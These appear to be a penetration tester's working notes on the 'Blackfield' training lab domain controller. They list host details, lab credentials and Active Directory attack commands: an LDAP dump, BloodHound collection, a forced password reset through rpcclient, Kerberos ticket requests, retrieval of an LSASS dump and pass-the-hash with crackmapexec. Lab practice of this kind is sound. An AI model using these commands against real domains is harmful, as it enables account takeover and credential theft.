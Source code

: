 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135, 593 rpc,  445 smb (signing:True) , 389, 3268 ldap,5985, (SMBv1:False)
Service Languages:
Users: dc01, audit2020,support,svc_backup, lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
audit2020 : ComplexP4ssw0rd!

```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593 `ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch`
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might accomplish much, given that we cant just download lssas 
	- Probably other directories are just clues.. I just really really wanted that lsass.zip
- svc_backup is the only member of remote management
-
- Forensic SMB dump
	- Ipwn3dYourCompany 
-
-
-




#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U support 10.10.10.192
> setuserinfo2 audit2020 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially

```
impacket-getTGT -dc-ip 10.129.229.17 'blackfield.local/audit2020'

smbget # use ccache file to auth in and get lsass.zip
```


- Is Ipwn3dYourCompany still enabled
- Is Ipwn3dYourCompany soft deleted?

- Is there a better way to view the firewall_rules.txt


Fallback on checking hashes if SIDs change
```
crackmapexec smb -u users.txt -H dumpedntmls.ntml 
```


/etc/ntpsec/ntp.conf 

Alternative to `ntpdate` https://ioflood.com/blog/ntpdate-linux-command/
```bash
chronyd
```
https://ioflood.com/blog/ntpdate-linux-command/
```bash
# Synchronize system time using ntpdate
sudo ntpdate pool.ntp.org

# Synchronize hardware time with system time
sudo hwclock --systohc
```